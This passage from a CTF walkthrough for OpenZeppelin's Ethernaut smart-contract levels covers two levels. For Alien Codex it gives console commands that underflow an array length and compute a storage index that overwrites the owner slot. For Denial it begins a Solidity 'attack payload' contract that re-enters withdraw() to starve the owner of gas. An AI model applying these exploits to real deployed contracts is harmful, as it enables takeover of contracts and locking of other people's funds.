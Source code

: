 `> await web3.eth.getStorageAt(instance, 1);`\
`< "0x0000000000000000000000000000000000000000000000000000000000000000"`

codex is an array of bytes32, the length of the array is stored in slot 1, and the data of the actual elements in the array is stored in another method
At this point, if we call the retract function, the array of codex can be underflowed: `contract.retract()`
Look again at the data in slot 1 after the call:

`> await web3.eth.getStorageAt(instance, 1);`\
`< "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"`

It can be seen that the array length in slot 1 underflows to the maximum value.

Recalling the requirements of the level, we need to override the value of owner, and the value of owner is in slot 0. Therefore, as long as the position of an array element is calculated, the position of the element will point to slot 0 because the maximum storage capacity of the storage is 2^256 slots because of the overflow. At this time, rewriting the codex element is equivalent to rewriting the value of owner.

To calculate the value, you must first know the formula for the slot position of the element in the array. The formula is very simple: `keccak256(slot) + index`
The codex array is defined at slot 1, so the first element is at slot keccak256(1) + 0, the second at slot keccak256(1) + 1, and so on.

The maximum number of slots in Storage is 2^256, and the value is 0 – 2^256-1, because as long as the value is written in slot 2^256, it will overflow into slot 0.

Integrate the above formula, namely: `2^256 = keccak256(slot) + index`
Rearrange it, that is: `index = 2^256 - keccak256(slot)`
As long as the revise function is called and the address of the player is written into `codex[2^256 – keccak256(slot)]`, the address of the original `owner` can be overwritten to complete this level. 





# 20. [Challenge 20: Denial](https://ethernaut.openzeppelin.com/level/0xf1D573178225513eDAA795bE9206f7E311EeDEc3)

Tasks:
- This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner. If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

**Solution:** \
Attack Payload:
```
pragma solidity ^0.8.0;

interface IDenial {
    function withdraw() external;
    function setWithdrawPartner(address _partner) external;
}

contract Denial {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    fallback() external payable {
        IDenial(levelInstance).withdraw();
    }

    function set() public {
```